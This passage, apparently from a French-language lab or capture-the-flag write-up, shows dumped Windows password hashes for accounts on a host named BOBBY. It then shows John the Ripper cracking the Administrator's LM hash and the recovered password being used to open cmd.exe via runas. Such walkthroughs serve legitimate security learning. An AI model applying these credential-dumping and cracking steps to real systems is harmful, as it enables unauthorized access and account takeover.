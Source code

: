 ```plain
[*] Dumping password hashes...

Administrator:500:921988ba001dc8e1e1c7c53891cb0efa:e1270db1dd8bf1e32725729695aa1feb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0d5a495be0d12c5c0001826d12a103db:e63e0754cf4f25edc0918ca39e06cb46:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:460935cc09bcbec00cc9b37788db5a54:::
bob:1003:66e5d5ae82299cb6aad3b435b51404ee:42865c72994c34e54d4c5d659fc15b10:::
IUSR_BOBBY:1004:080d6ebbb9f70bc7b9fa1681c900a5b1:2c30939c170e28b5becd8c652425ea85:::
IWAM_BOBBY:1005:519481f2f1ae0a2fa91d88c577b32453:713317229556300b105c82332af604b1:::
```

Là on est entré comme dans du beurre :)  

A partir de là on a le choix entre la méthode old-school de cassage de hash (a.k.a [classic one way ticket to Fuckneckville](https://www.youtube.com/watch?v=H7nBDONk4FA)) :  

```bash
$ /opt/jtr/john hash.txt                                                                                                                                                        
Warning: detected hash type "lm", but the string is also recognized as "nt2"                                                                                                                                   
Use the "--format=nt2" option to force loading these as that type instead                                                                                                                                      
Warning: detected hash type "lm", but the string is also recognized as "nt"                                                                                                                                    
Use the "--format=nt" option to force loading these as that type instead                                                                                                                                       
Loaded 2 password hashes with no different salts (LM DES [128/128 BS AVX-16])                                                                                                                                  
D12345           (Administrator:2)                                                                                                                                                                             
guesses: 1  time: 0:00:01:12 0.04% (3)  c/s: 47036K  trying: 3LUYN4N - 3LUYPTC                                                                                                                                 
P@SSW0R          (Administrator:1)                                                                                                                                                                             
guesses: 2  time: 0:01:25:27 DONE (Wed Mar 26 15:06:06 2014)  c/s: 46616K  trying: P@SSWEG - P@SSWAU                                                                                                           
Warning: passwords printed above might be partial                                                                                                                                                              
Use the "--show" option to display all of the cracked passwords reliably
```

Le mot de passe est p@ssword12345, on peut lancer un *cmd.exe* via *runas*.  
